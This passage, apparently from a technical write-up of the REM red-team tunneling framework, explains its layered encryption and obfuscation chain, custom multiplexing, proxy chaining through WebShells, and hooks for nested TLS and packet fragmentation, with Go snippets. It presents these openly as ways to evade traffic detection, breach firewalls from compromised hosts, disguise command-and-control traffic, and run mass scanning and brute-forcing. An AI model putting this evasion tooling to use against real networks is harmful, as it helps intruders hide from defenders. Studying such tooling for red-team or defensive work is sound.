- **Fully Controllable Data Flow:** The attacker completes all necessary data processing before the data reaches the target application.
- **Hiding Internal Structures:** Detection devices cannot see the internal structure of multiplexing, only the encrypted data stream.
    

#### 2.3.2 Presentation Layer (Wrapper): Dynamic Encryption and Obfuscation Chain

_Code:_ [`https://github.com/chainreactors/rem-community/tree/master/protocol/wrapper`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem-community/tree/master/protocol/wrapper%5D\(https://github.com/chainreactors/rem-community/tree/master/protocol/wrapper\))

Single encryption algorithms are easily identified; multi-layer nested encryption and obfuscation are required. The Wrapper implements arbitrary combinations of encryption and obfuscation via a chained processing architecture and a reverse read chain design, while ensuring the correctness of the encryption/decryption order.

Wrapper Chain Processing Architecture:

REM's Wrapper layer adopts a chained processing architecture designed based on the standard io.ReadWriteCloser interface, supporting stream encryption and dynamic configuration mechanisms. Core components include the WrapperChain processor chain and ChainReader read chain, realizing layered data encryption processing.

Reverse Read Chain Design:

To ensure correct decryption order, the read chain is built in reverse: when writing data, it starts from the first wrapper (encryption order); when reading data, it starts from the last wrapper (decryption order), ensuring the correctness of nested encryption.

**Assumption: Three layers of wrappers are configured: AES-CFB → XOR → HTTP Masquerade**

**Write Data Flow:**

```
Plaintext Data
  ↓ [AES-CFB Encryption]
AES Ciphertext
  ↓ [XOR Obfuscation]
XOR Obfuscated Data
  ↓ [HTTP Header Wrapping]
Masqueraded HTTP Traffic
  ↓
Network Transmission
```

**Read Data Flow (Reverse):**

```
Network Receive
  ↓ [HTTP Header Stripping]
XOR Obfuscated Data
  ↓ [XOR De-obfuscation]
AES Ciphertext
  ↓ [AES-CFB Decryption]
Plaintext Data
```

This reverse read design supports dynamic combination of any number and type of wrappers. It ensures the correct encryption/decryption order of "outer layers wrapping inner layers" while maintaining a completely transparent standard `io.ReadWriteCloser` interface for upper-layer calls. This allows attackers to flexibly combine different encryption and obfuscation technologies based on specific needs, achieving customizable traffic camouflage and providing multi-level protection for data.

#### 2.3.3 Session Layer (Mux): Lightweight Multiplexing

Existing protocols like `smux`/`yamux` have identifiable statistical characteristics. REM avoids identification by detection devices through custom protobuf message formats and a Redirect mechanism to achieve zero-signature multiplexing.

REM uses protobuf to define message formats and implements its own multiplexer in conjunction with a buffer management mechanism. This avoids the statistical characteristics of existing multiplexing protocols like `smux`/`yamux` while providing zero-signature design, adaptive buffering, smart scheduling, and error recovery capabilities.

_(In the OSI model, this corresponds to session layer connection management and presentation layer encryption/obfuscation. REM inverts and fuses the two to achieve complete control over data.)_

### 2.4 Between Transport Layers: Protocol-Boundary-Free Proxy Integration

Attack scenarios often require traversing multiple network layers (firewalls/enterprise proxies/WebShells). `proxyclient` integrates various proxy protocols (SOCKS/HTTP/SSH/neoreg/suo5) into combinable modular components via unified `Dialer` abstraction and dynamic registration mechanisms, achieving protocol-boundary-free proxy capabilities.

_Code:_ [`https://github.com/chainreactors/proxyclient`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/proxyclient%5D\(https://github.com/chainreactors/proxyclient\))

The REM architecture achieves protocol-boundary-free capabilities through proxy integration between transport layers. The core of this part is the `proxyclient` library, which effectively blurs the boundaries between data transmission and proxies, unifying traditionally isolated proxy protocols into modular components.

_(`proxyclient` was originally a sub-package in REM, but its application scenarios far exceed REM, so it was abstracted as a lightweight, dependency-free independent package.)_

#### 2.4.1 Background Knowledge of Golang Proxies

There is a fundamental cognitive bias regarding traditional Golang proxies. Most developers use:


```go
// WRONG way to use proxy - Applies to HTTP only
func main() {
    proxyUrl, _ := url.Parse("http://127.0.0.1:8080")
    client := &http.Client{
        Transport: &http.Transport{
            Proxy: http.ProxyURL(proxyUrl),
        },
    }
    // This method is only suitable for HTTP and cannot handle TCP/UDP traffic
}
```

**Correct Golang Proxy Usage:**

```go
// CORRECT Proxy Abstraction - Protocol Agnostic
func main() {
    proxyURL, err := url.Parse("socks5://127.0.0.1:1080")
    if err != nil {
        log.Fatal(err)
    }

    dialer, err := proxyclient.NewClient(proxyURL)
    if err != nil {
        log.Fatal(err)
    }

    transport := &http.Transport{
        Dial: dialer.Dial, // Use the Dial interface directly
    }

    client := &http.Client{
        Transport: transport,
    }
    // This method supports all protocols
}
```

The key advantage of this design is that it supports multiple proxy protocols like SOCKS5 and HTTP through the unified abstraction of `proxyclient`. By using the `Dial` interface directly, it avoids performance loss and is compatible with TCP/UDP traffic, thus applying to all network application scenarios. By rewriting the `dialer interface`, we can make any network protocol act as a proxy. Inspired by this, we re-implemented the `proxyclient` library, greatly expanding Golang's native proxy ecosystem.

**Supported Protocols:**

- HTTP/HTTPS
- SOCKS5/4/4a
- ShadowSocks
- SSH Proxy
- neoreg (WebShell)
- suo5 (WebShell)
- ....

WebShell Proxy Integration: The Breakthrough of Neoreg and Suo5 Bi-directional Interoperability

In traditional understanding, there is a fundamental difference between WebShell proxies and standard proxy protocols. proxyclient completely breaks this boundary, implementing a bi-directional interoperability architecture for neoreg and suo5.

In traditional scenarios, tools like `pystinger` achieved similar effects via APIs provided on the WebShell. But in REM, we can use _any_ proxy/WebShell to achieve this, and by operating completely in memory, we vastly optimize performance.

#### 2.4.3 Dynamic Registration Mechanism and Bootstrapping

The dynamic registration mechanism is one of the core innovations of `proxyclient` integration with REM. Its essence is registering REM itself as a proxy protocol within `proxyclient`, achieving **bootstrapping** capability. This allows REM to use other proxy protocols and also be called as a proxy protocol by other tools.

Technical Architecture of Bi-directional Registration:

By registering REM itself as a proxyclient, what was originally an extremely complex integration operation becomes attainable for any Golang tool to use REM's encrypted, stable channel as a transport layer with less than three lines of code.

Here is a simple example. If there is a C2 tool implemented based on HTTP, we only need `newRemProxyClient` to use it directly as its HTTP transport layer.


```go
remurl, _ := url.Parse("tcp://nonenonenonenone:@127.0.0.1:1234/?wrapper=raw")
pc, err := newRemProxyClient(remurl, nil)
if err != nil {
    return
}
client := &http.Client{
    Transport: &http.Transport{
        DialContext: pc,
    },
}
_, err = client.Get("http://127.0.0.1:1111/")
if err != nil {
    panic(err)
}
```

#### 2.4.4 Principles of Zero-Performance-Loss Proxy

Performance bottlenecks in traditional proxy environments are mainly reflected in high-concurrency scenarios, especially massive packet loss during port scanning. The main reasons include:

- **Uneven Proxy Server Implementation:** Many proxy tools (like single-file SOCKS5 tools) lack investment in performance optimization.
- **Environmental Constraints:** WebShell proxies suffer from poor concurrency due to language environments and runtime conditions. If a duplex channel cannot be built, relying on polling to simulate long connections creates significant bottlenecks.
- **Client Tool Limitations:** Tools like proxifier, proxychains, and clash are optimized primarily for bandwidth, lacking specific optimization for high-concurrency scenarios.
    

Based on the `proxyclient` library design, REM optimizes performance by simulating the SOCKS5 proxy protocol in memory. The core principle is creating a `memoryPipe` in memory and starting the memory proxy service via `NewConsoleWithCMD`, enabling direct data exchange between `proxyclient` and REM in memory, avoiding the overhead of real network connections.

Another key performance optimization is the timing of SOCKS authentication processing. REM handles SOCKS authentication when the user and server connection is established, whereas traditional protocols like frp and nps handle authentication at the proxy client.

**Differences in Processing Timing:**

- **REM Method:** Authentication is completed once at connection establishment; subsequent data transmission requires no repetitive authentication processing, avoiding accumulated overhead.
- **Traditional Method:** Each connection requires authentication processing at the proxy client, increasing computational overhead and latency, causing severe performance loss in high-concurrency scenarios.
    

By moving authentication processing to the connection establishment phase, REM avoids repetitive authentication overhead in high-concurrency scenarios. This is one of the important technical details for achieving zero performance loss.

#### 2.4.5 Cascading Proxy (Chain Proxy)

Cascading proxying is a core capability of `proxyclient`, supporting the serialization of multiple proxy servers to form complex proxy chains. This capability is of high value in complex network environments.

**Typical Cascading Proxy Scenario:**

_Network Hierarchy:_

```
Local Network -> Boundary Server -> Enterprise Proxy -> Web Server -> Restricted Intranet -> Target Intranet
```

_Attack Tools:_

```
SSH Jump Host -> SOCKS5 Proxy -> HTTP Gateway -> neoreg WebShell -> REM
```

_(In the OSI model, this is equivalent to network layer routing and protocol conversion, achieving path selection and protocol adaptation across networks via proxies.)_

We can implement proxy chaining with extremely simple configuration:

```go
proxy1, _ := url.Parse("socks5://localhost:1080")
proxy2, _ := url.Parse("http://localhost:8080")
dial, err := proxyclient.NewClientChain([]*url.URL{proxy1, proxy2})
```

### 2.5 Above Transport Layers: Protocol Stack Orchestrator

Sections 2.1-2.4 described Tunnel transport abstraction, Simplex+ARQ reliability conversion, Wrapper encryption/obfuscation, and `proxyclient` integration. The **Hook mechanism** acts as the core orchestrator, flexibly combining these scattered capabilities into a complete attack channel through priority control and chained execution.

#### 2.5.1 Hook Mechanism

_Code:_ [`https://github.com/chainreactors/rem/blob/master/protocol/tunnel/options.go`](https://www.google.com/search?q=%5Bhttps://github.com/chainreactors/rem/blob/master/protocol/tunnel/options.go%5D\(https://github.com/chainreactors/rem/blob/master/protocol/tunnel/options.go\))

We used a similar mechanism in 2.1.2 to implement secondary encapsulations like TLS, TLS-in-TLS, compression, and ShadowTLS on Conn.

It provides two types of hooks: BeforeHook and AfterHook, injecting processing logic before and after connection establishment. This applies not only to operations on a single Conn (as shown in 2.1.2) but also to orchestrating all capabilities from Sections 2.1-2.4 into a coordinated whole.

**Hook Orchestration Capabilities:**

```go
// Hook orchestration example based on actual code (from console.go)
tunOpts := []tunnel.TunnelOption{}

// TLS Encryption Layer (Section 2.1.2)
if console.ConsoleURL.GetQuery("tls") != "" {
    tunOpts = append(tunOpts, tunnel.WithTLS())  // Priority MaxInt-10
}

// TLS in TLS Double Encryption (Section 2.1.2)
if console.ConsoleURL.GetQuery("tlsintls") != "" {
    tunOpts = append(tunOpts, tunnel.WithTLSInTLS())  // Priority MaxInt-110
}

// Network Layer: Proxy Integration (Section 2.4)
if len(runner.ForwardAddr) > 0 {
    tunOpts = append(tunOpts, tunnel.WithProxyClient(runner.ForwardAddr))
    // ForwardAddr example: []string{"socks5://proxy:1080", "neoreg://shell/t.php"}
}

// Data Compression (Section 2.1.2)
if console.ConsoleURL.GetQuery("compress") != "" {
    tunOpts = append(tunOpts, tunnel.WithCompression())  // Priority WrapperPriority±5
}

// Presentation Layer: Encryption Obfuscation Chain (Section 2.3.2)
var wrapperOpts core.WrapperOptions
if wrapperStr := console.ConsoleURL.GetQuery("wrapper"); wrapperStr != "" {
    wrapperOpts, _ = core.ParseWrapperOptions(wrapperStr, runner.Key)
} else {
    // Automatically generate 2-4 layers of random Wrappers
    wrapperOpts = core.GenerateRandomWrapperOptions(2, 4)
}
if wrapperOpts != nil {
    tunOpts = append(tunOpts, tunnel.WithWrappers(isServer, wrapperOpts))
    // Priority WrapperPriority(20)
}

// Create complete Tunnel; all Hooks automatically orchestrated by priority
tunnel, _ := tunnel.NewTunnel(context.Background(), scheme, isServer, tunOpts...)
```

The Hook mechanism executes in order based on priority control, ensuring each layer processes data correctly:

**Data Send Flow (Priority Low to High):**

```
Raw Data
  ↓ [Priority 20: Wrapper Chain] - 2-4 layers random encryption (2.3.2)
  ↓ [Priority 25: Snappy Compression] - Reduce bandwidth (2.1.2)
  ↓ [Priority MaxInt-110: TLS in TLS] - Inner TLS (2.1.2)
  ↓ [Priority MaxInt-10: TLS Encryption] - Outer TLS (2.1.2)
  ↓ [Tunnel Transport] - Via Simplex+ARQ (2.2)
  ↓ [ProxyClient] - Via multi-level proxy (2.4)
  → Network Transmission
```

**Data Receive Flow (Reverse Processing):**

```
Network Receive
  ↓ [ProxyClient] - Reverse proxy chain
  ↓ [Tunnel Receive] - Simplex+ARQ reassembly
  ↓ [Priority MaxInt-10: TLS Decryption] - Strip outer TLS
  ↓ [Priority MaxInt-110: TLS in TLS Decryption] - Strip inner TLS
  ↓ [Priority 25: Snappy Decompression] - Decompress data
  ↓ [Priority 20: Wrapper Decryption] - Reverse decryption/obfuscation chain
  → Raw Data
```

**Scenario 1: Breaching Restricted Enterprise Networks**

```go
// Only HTTPS outbound allowed, maximum covertness required
tunOpts := []tunnel.TunnelOption{
    tunnel.WithWrappers(false, wrapperOpts),  // Custom encryption (2.3.2)
    tunnel.WithTLS(),                          // Outer TLS camouflage (2.1.2)
}
// Effect: Wrapper Encryption → TLS Packaging → Looks like normal HTTPS traffic
```

**Scenario 2: WebShell Tunnel**

```go
// Establish high-performance tunnel via WebShell, maximize bandwidth
tunOpts := []tunnel.TunnelOption{
    tunnel.WithProxyClient([]string{"neoreg://webshell/tunnel.php"}), // WebShell Proxy (2.4)
    tunnel.WithCompression(),                                          // Compression (2.1.2)
    tunnel.WithWrappers(false, lightWeightWrappers),                   // Lightweight Encryption (2.3.2)
}
// Effect: Lightweight Encryption → Compression → neoreg → WebShell
//      Single channel reuse, maximized bandwidth utilization
```

**Scenario 3: Multi-layer Encryption Against Deep Inspection**

```go
// Counter DPI deep packet inspection, use multi-layer TLS
tunOpts := []tunnel.TunnelOption{
    tunnel.WithWrappers(false, wrapperOpts),  // Random Wrapper obfuscation (2.3.2)
    tunnel.WithCompression(),                  // Compression breaks statistical features (2.1.2)
    tunnel.WithTLSInTLS(),                     // Inner TLS (2.1.2)
    tunnel.WithTLS(),                          // Outer TLS (2.1.2)
}
// Effect: Wrapper → Compression → TLS → TLS
//      Multi-layer nesting, each layer has valid certs, extremely hard to identify
```

- **Flexible Combination of Protocol Stack Capabilities:** Tunnel, Simplex, ARQ, Wrapper, `proxyclient`, and other independent capabilities are flexibly orchestrated via the priority mechanism.
- **Rapid Scenario Reconfiguration:** Dynamic control of Hook configuration via URL parameters (e.g., `?tls&compress&wrapper=aes-cfb,xor`) without modifying code.
- **Fine-grained Control of Traffic Characteristics:** Precise control of final traffic characteristics (encryption levels, compression ratios, TLS nesting depth) via Hook chain order and parameters.
- **Automated Counter-measures:** `GenerateRandomWrapperOptions(2, 4)` automatically generates 2-4 random Wrapper layers, ensuring the encryption chain is different for every connection.
    

Through the Hook mechanism, REM achieves the shift from a "Fixed Protocol Stack" to an "Orchestratable Protocol Stack," which is one of its core capabilities as an offensive infrastructure platform.

#### 2.5.2 Statistical Countermeasures

The Hook mechanism has another value: because it is transport-agnostic, we didn't introduce it in 2.1. In 2.1, we described the essence of this mechanism as secondary operations on `Conn`. Beyond encapsulating various technologies from 2.1-2.4 as tunnel hooks, we can also add independent hook configurations, such as splitting a packet into multiple packets or adding random time series to each packet.

Case: Packet Fragmentation

Fragmentation Hook is used to break statistical characteristics of traffic and evade traffic analysis-based detection:

```go
// Statistical Countermeasure Hook: Packet Fragmentation
func WithPacketFragmentation(maxPacketSize int, randomDelay bool) TunnelOption {
    return newFuncTunnelOption(func(do *TunnelService) {
        do.afterHooks = append(do.afterHooks, core.AfterHook{
            Priority: DefaultHookPriority + 15,
            DialerHook: func(ctx context.Context, c net.Conn, addr string) (context.Context, net.Conn, error) {
                // Wrap Conn, implement packet fragmentation
                fragConn := &FragmentationConn{
                    Conn:          c,
                    maxPacketSize: maxPacketSize,
                    randomDelay:   randomDelay,
                }
                return ctx, fragConn, nil
            },
        })
    })
}

// Packet Fragmentation Conn Implementation (Conceptual Example)
type FragmentationConn struct {
    net.Conn
    maxPacketSize int
    randomDelay   bool
}

func (f *FragmentationConn) Write(p []byte) (n int, err error) {
    // Countermeasure: Split large packets into multiple small packets
    totalLen := len(p)
    offset := 0

    for offset < totalLen {
        // Calculate packet size for this send
        chunkSize := f.maxPacketSize
        if offset+chunkSize > totalLen {
            chunkSize = totalLen - offset
        }

        // Send fragmented small packet
        chunk := p[offset : offset+chunkSize]
        _, err := f.Conn.Write(chunk)
        if err != nil {
            return offset, err
        }

        offset += chunkSize

        // Optional: Add random delay, simulate normal interactive traffic
        if f.randomDelay && offset < totalLen {
            time.Sleep(time.Duration(rand.Intn(50)) * time.Millisecond)
        }
    }

    return totalLen, nil
}
```

Actual Effect of Statistical Countermeasures:

Assuming original traffic is a 5KB large packet:

- **Original Traffic Feature:** `[=====5000 bytes=====]` (Single large packet, obvious burst traffic)

After applying Fragmentation Hook (`maxPacketSize=50`):

- `[50] [50] [50] ... [50] [50]` (Total 100 small packets)
- **Feature:** Multiple small packets, similar to normal interactive traffic (like SSH, HTTP requests).

If `randomDelay` is enabled:

- `[50]--5ms--[50]--23ms--[50]--8ms--...`
- **Feature:** Random packet intervals, closer to the time characteristics of human operation.

This fragmentation technique effectively disrupts statistical characteristics:

- **Packet Size Distribution:** Transforms large packets into small ones, fitting normal interactive traffic distribution.
- **Burst Characteristics:** Eliminates obvious data bursts, making traffic smoother.
- **Timing Characteristics:** Simulates human operation intervals via random delays.
- **Detection Evasion:** Bypasses anomaly detection rules based on packet size (e.g., alerts for "single packet > 4KB").
    

Hook Chain Combination Usage:

Multiple Hooks can be combined and executed in priority order:

```go
tunnel := NewTunnel(
    WithPacketFragmentation(100, true),      // Priority 25: Fragment first
    WithCompression(),                        // Priority 25: Then compress
    WithTLS(),                               // Priority MaxInt-10: Finally TLS encrypt
)
```

**Data Flow Processing Order:**

```
Raw Data
  → Fragmentation (100 bytes/packet)
  → Compression
  → TLS Encryption
  → Network Transmission
```

Through the Hook mechanism, REM can inject various processing logic at different stages of connection establishment: standard operations like TLS encryption, data compression, and Wrapper obfuscation, as well as statistical countermeasures like delay injection, traffic shaping, and padding. These Hooks execute in priority order, with each layer focusing on a specific function, providing flexible extension capabilities for the transport layer.

---

## 3. Blossoming Offensive Protocol Stack Application Scenarios

Based on the attack-oriented protocol stack reconstruction architecture built in Chapter 2, REM demonstrates significant improvements in actual network confrontation scenarios. These scenarios go beyond the functional enhancements of traditional proxy tools; through systematic protocol stack reconstruction, they effectively improve the methods and outcomes of network-side offensive operations.

Through protocol-agnostic transport abstraction at the transport layer, dynamic encryption/obfuscation chains at the presentation layer, lightweight multiplexing at the session layer, and protocol-boundary-free integration via `proxyclient`, the REM architecture provides effective infrastructure support for various advanced attack applications.

Ultimately, we easily reproduced the capabilities of various tools using REM and conducted more innovative practices.

|**Tool Name**|**Type**|**REM Reproduction Capability (Channel/Protocol)**|**Notes**|
|---|---|---|---|
|**frp**|Port Forwarding/Tunnel|Provides TCP/UDP port forwarding, reverse proxy, multi-port listening, etc.|Core functions fully implemented|
|**gost**|Tunnel/Proxy|Simulates multi-protocol tunnels (TCP, UDP, WebSocket), forwarding, and proxy functions.|Core functions fully implemented|
|**nps**|Port Forwarding/Proxy|Provides TCP/UDP port forwarding, reverse proxy, SOCKS5/HTTP proxy, etc.|Core functions fully implemented|
|**spp**|Port Forwarding|Simulates TCP/UDP port forwarding functions.|Core functions fully implemented|
|**pingtunnel**|ICMP Tunnel|Implements tunnel communication based on ICMP Echo/Reply.|Implemented via kcp+icmp|
|**iox**|Port Forwarding|Provides TCP/UDP-based port forwarding.|Port forwarding implemented in App Layer|
|**GC2-sheet**|LolC2 (Cloud Service Channel)|Simulates C2 channels exchanging data via Google Sheets and other cloud service APIs.|Implemented via simplex+google/graph api|
|**dnstunnel**|DNS Tunnel|Simulates DNS query/response mechanism, hiding data in DNS traffic.|Implemented via simplex+dns|
|**CobaltStrike Profile**|C2 Traffic Masquerade|Simulates CobaltStrike C2 framework traffic profile characteristics.|Can simulate any HTTP protocol via padding wrapper|
|**CobaltStrike ExternalC2**|C2 Extension Interface|Simulates CobaltStrike ExternalC2 protocol as an external communication channel for C2.|ExternalC2 implemented in App Layer|
|**suo5**|WebShell Proxy|Simulates suo5 WebShell proxy protocol, proxying via WebShell.|suo5 client implemented via proxyclient|
|**neoreg**|WebShell Proxy|Simulates neoreg WebShell proxy protocol, proxying via WebShell.|neoreg client implemented via proxyclient|
|**Xray**|Proxy/Tunnel Platform|Simulates Vless, Trojan protocols and routing/transport config (TLS, WS, HTTP/2).|Can be integrated into REM. Although REM can achieve similar functions, capabilities are similar to original; no plan to use REM here.|
|**Reality**|TLS Masquerade Protocol|Simulates Reality traffic masquerading (TLS traffic as normal site traffic).|Can be integrated into REM.|

### 3.1 Application Layer Abstraction: Bidirectional Protocol Processing for Outbound & Inbound

**Application Layer Abstraction Requirements:** The capabilities built in Chapter 2 for Transport, Presentation, and Session layers provide REM with a powerful foundation, but these capabilities ultimately need to be exposed to users and tools via application layer protocols. REM implements a unified processing framework for application layer protocols through two core abstractions: **Outbound** and **Inbound**.

In traditional network tools, each application protocol (SOCKS5, HTTP Proxy, Shadowsocks, etc.) requires independent implementation of client and server logic, leading to code duplication and difficulty in reuse. REM decouples application layer protocol processing into two directional operations via Outbound/Inbound abstraction, combined with a dynamic registration mechanism to achieve flexible combination and extension of protocols.

#### 3.1.1 Outbound: Protocol Server Handling Outgoing Connections

**Core Function of Outbound:** Handles protocol connection requests from user tools, parses protocol content, and establishes connections to target addresses. Outbound acts as the protocol server, responsible for understanding and responding to protocol requests.

**Outbound Interface Definition:**


```go
type Outbound interface {
    Name() string
    Handle(conn io.ReadWriteCloser, realConn net.Conn) (net.Conn, error)
    ToClash() *utils.Proxies
}

type OutboundCreatorFn func(options map[string]string, dial ContextDialer) (Outbound, error)
```

- `conn io.ReadWriteCloser`: Connection with the user tool (connection processed by Wrapper encryption and Mux multiplexing).
- `realConn net.Conn`: Underlying transport layer connection (net.Conn provided by Tunnel).
- `dial ContextDialer`: Dialer used to initiate connections to target addresses, which can be a proxy dialer provided by `proxyclient`.

**SOCKS5 Outbound Implementation Example (based on actual code from socks5.go):**

```go
type Socks5Plugin struct {
    Server *socks5.Server
    *core.PluginOption
}

func (sp *Socks5Plugin) Handle(conn io.ReadWriteCloser, realConn net.Conn) (net.Conn, error) {
    // Wrap as complete net.Conn
    wrapConn := cio.WrapConn(realConn, conn)

    // Parse SOCKS5 protocol request
    ctx := context.Background()
    req, err := sp.Server.ParseConn(ctx, wrapConn)
    if err != nil {
        return nil, err
    }

    // Use Server's Dial method to connect to target address
    // Dial here might be provided by proxyclient, supporting multi-level proxies
    target, err := sp.Server.Dial(ctx, req, wrapConn)
    if err != nil {
        return nil, err
    }

    return target, nil
}
```

The Outbound workflow involves receiving and parsing SOCKS5 requests transmitted over encrypted multiplexed tunnels, then connecting to the real target via a `ContextDialer` (which may contain multi-level proxies), ultimately establishing a transparent data forwarding channel between the user tool and the target.

#### 3.1.2 Inbound: Relaying Protocol Requests to Remote Ends

**Core Function of Inbound:** Relays locally received connections to a remote bridge connection via protocol format. Inbound acts as the protocol client, responsible for encoding local requests into protocol format and sending them to the remote end.

**Inbound Interface Definition:**

```go
type Inbound interface {
    Name() string
    Relay(conn net.Conn, bridge io.ReadWriteCloser) (net.Conn, error)
}

type InboundCreatorFn func(options map[string]string) (Inbound, error)
```

**Key Parameters:**

- `conn net.Conn`: Locally received connection (e.g., TCP connection received by port forwarding).
    
- `bridge io.ReadWriteCloser`: Bridge connection to the remote end (connection processed by Tunnel, Wrapper, Mux).
    

**SOCKS5 Inbound Implementation Example (based on actual code from socks5.go):**

```go
func (sp *Socks5Plugin) Relay(conn net.Conn, bridge io.ReadWriteCloser) (net.Conn, error) {
    // Parse SOCKS5 request from local connection
    req, err := sp.Server.ParseConn(context.Background(), conn)
    if err != nil {
        return nil, err
    }

    // Build SOCKS5 relay request, send to remote bridge
    _, err = bridge.Write(req.BuildRelay())
    if err != nil {
        return nil, err
    }

    // Read SOCKS5 reply from remote bridge
    rep, addr, _ := socks5.ReadReply(bridge)
    if rep != socks5.RepSuccess {
        return nil, fmt.Errorf("relay failed: %v", rep)
    }

    // Send success reply to local connection
    conn.Write(socks5.BuildSuccessReply(addr))

    return conn, nil
}
```

**Inbound Workflow:**

1. Local application (e.g., port forwarding) receives a connection.
2. Inbound parses the SOCKS5 request from the local connection.
3. Encodes the request into SOCKS5 protocol format and sends it to the remote end via `bridge`.
4. Remote Outbound processes the request and establishes the target connection.
5. Response returns via `bridge`, and Inbound forwards it to the local connection.

#### 3.1.3 Reverse vs. Proxy Mode: Inbound Location Determines Network Topology

**Core Essence:** REM controls where the Inbound resides via **Reverse** and **Proxy** modes, thereby realizing different network topologies and attack scenarios.

**Essential Duties of Inbound and Outbound (based on actual code from agent.go):**

```go
// handlerInbound: Listen on local port, accept direct user connections
func (agent *Agent) handlerInbound(local, remote *core.URL, control *message.Control) error {
    err := agent.ListenAndServe(local, control)  // Listen on local port
    instant, err := core.InboundCreate(local.Scheme, options)  // Create Inbound
    agent.Inbound = instant  // Inbound.Relay() relays user request to remote
    return nil
}

// handlerOutbound: Receive remote relayed requests, process protocol, connect to target
func (agent *Agent) handlerOutbound(local, remote *core.URL, control *message.Control) error {
    instant, err := core.OutboundCreate(local.Scheme, options, core.NewProxyDialer(agent.client))
    agent.Outbound = instant  // Outbound.Handle() processes protocol request, uses dialer to connect target
    return nil
}
```

- **Inbound = ListenAndServe + Relay:** Listen for user connections, relay to remote.
- **Outbound = Handle + Dial:** Process relayed requests, connect to real target.
- The same protocol (e.g., `Socks5Plugin`) implements both interfaces simultaneously; mode selection determines which interface is used.
    

**Reverse Mode (Inbound at Server Side - Firewall Breach):**

- **Topology:** User Tool → Server (External, isAccept=true) ← Client (Internal, Active Connect)
- Data Flow:
    
    User → Server Listen:1080 → Inbound.Relay() → Tunnel Transport → Client → Outbound.Handle() → Internal Target
    
- **Server Side:**
    - `ListenAndServe(:1080)` listens on SOCKS5 port.
    - Inbound accepts user SOCKS5 connections.
    - `Relay()` relays requests to Client.
        
- **Client Side:**
    - Actively connects to Server to establish Tunnel.
    - Outbound receives requests relayed by Server.
    - `Handle()` parses SOCKS5, `Dial()` connects to internal target.

- **Attack Value:** Client in the intranet actively connects to the external Server, bypassing inbound firewall restrictions. After compromising an internal machine, the Client actively calls out to establish a tunnel, allowing the user to access internal resources via the Server.
    

**Proxy Mode (Inbound at Client Side - Forward Proxy):**

- **Topology:** User Tool → Client (User Side, isAccept=false) → Server (Target Network, isAccept=true)
    
- Data Flow:
    
    User → Client Listen:1080 → Inbound.Relay() → Tunnel Transport → Server → Outbound.Handle() → Target Network
    
- **Client Side:**
    
    - `ListenAndServe(:1080)` listens on SOCKS5 port.
        
    - Inbound accepts user SOCKS5 connections.
        
    - `Relay()` relays requests to Server.
        
- **Server Side:**
    
    - Client connects to Server to establish Tunnel.
        
    - Outbound receives requests relayed by Client.
        
    - `Handle()` parses SOCKS5, `Dial()` connects to target network.
        
- **Attack Value:** Server is located in the target network; user proxies access to the remote target network via local Client. Suitable for multi-level jump host scenarios where the Client can chain connections to multiple Servers.
    

**Mode Essence Comparison:**

|**Mode**|**Inbound Location**|**User Connection**|**Target Connection**|**Typical Scenario**|
|---|---|---|---|---|
|**Reverse**|Server Side (External)|Connects to Server|Client connects to Internal|Firewall breach, Internal Penetration|
|**Proxy**|Client Side (Local)|Connects to Client|Server connects to Target Network|Forward Proxy, Cascading Jump Host|

**Supported Protocols (based on consts.go, bi-directional registration):**

- `socks5` - SOCKS5 Proxy Protocol
- `http` - HTTP Proxy Protocol
- `ss` - Shadowsocks Protocol
- `trojan` - Trojan Protocol
- `forward` - Port Forwarding
- `cs` - CobaltStrike External C2
- `raw` - Raw TCP Forwarding
- ....

#### 3.1.4 Integration with Protocol Stack: Complete Link from Transport to Application

**Complete Data Flow Path (Example: SOCKS5 in Reverse Mode):**


```
User Tool (Port Scanner)
  ↓ [Initiate SOCKS5 connection to Server:1080]
Server Side Inbound (SOCKS5)
  ↓ [Parse SOCKS5 request, extract target address]
  ↓ [Send to remote via bridge.Write()]
Server Side Mux (Section 2.3.3)
  ↓ [Multiplexing, multiple SOCKS5 requests reuse single Tunnel]
Server Side Wrapper Chain (Section 2.3.2)
  ↓ [Encryption/Obfuscation, e.g., AES-CFB → XOR → HTTP Masquerade]
Server Side Tunnel (Section 2.1)
  ↓ [Transport Send, could be TCP/ICMP/DNS etc.]
  ↓ [Possibly via proxyclient proxy chain (Section 2.4)]
Network Transmission
  ↓
Client Side Tunnel (Section 2.1)
  ↓ [Transport Receive]
Client Side Wrapper Chain (Section 2.3.2)
  ↓ [Reverse Decryption: HTTP Strip → XOR De-obfuscate → AES-CFB Decrypt]
Client Side Mux (Section 2.3.3)
  ↓ [Multiplex parsing, distribute to corresponding stream]
Client Side Outbound (SOCKS5)
  ↓ [Handle method parses SOCKS5 request]
  ↓ [Use ContextDialer to connect to target]
Intranet Target (192.168.1.100:22)
```

**Position of Outbound/Inbound in Protocol Stack:**

- **Top of Application Layer:** Directly facing user tools and target services.
- **Dependent on Lower Layers:** Uses Tunnel's `net.Conn`, Wrapper's encryption, Mux's multiplexing, `proxyclient`'s proxies.
- **Protocol Agnostic:** Underlying transport can be TCP/ICMP/DNS/WebShell; Outbound/Inbound does not care.
- **Dynamic Scalability:** New protocols can be integrated simply by implementing the interface via the registration mechanism.
    

This application layer abstraction allows REM to flexibly combine different protocols and modes, providing a unified application layer foundation for the various attack scenarios described in subsequent sections.

### 3.2 Zero Performance Loss Proxy Protocol

The performance bottleneck of traditional proxy tools mainly comes from concurrent processing, especially in high-concurrency scenarios like port scanning. A massive number of fragmented SOCKS handshake packets block and consume system resources, leading to a drastic decline in performance. Traditional tools map every connection to a real network connection, causing severe performance loss.

Based on the technical architecture in Chapter 2, REM's breakthrough solution is **Memory Simulation of SOCKS5 Proxy Protocol**. Through the memory transport layer, REM simulates the SOCKS5 handshake and data exchange process directly in memory, without actual network layer data transmission occurring.

- When a scanning tool initiates a connection request, REM simulates the complete SOCKS5 handshake flow in memory.
- Multiple concurrent requests are scheduled and multiplexed in memory, avoiding the overhead of real network connections.
- Batch data is transmitted via optimized tunnels, maximizing bandwidth utilization.

**Actual Application Effect:**

- **Massive Port Scanning:** Single node can handle tens of thousands of concurrent port scans with performance approaching direct connection.
- **Distributed Brute-forcing:** Large-scale authentication brute-forcing in multi-level tunnel environments with no performance decay.
- **High-Frequency API Calls:** Supports high-frequency API interface calls unrestricted by proxy layer performance.


This zero-performance-loss concurrency handling capability allows attack tools to perform as if running locally even in complex network environments, greatly expanding the tactical choice space.

### 3.3 Universal Protocol Chain Across Arbitrary Media

Traditional Limitations of Cascading Network Attacks:

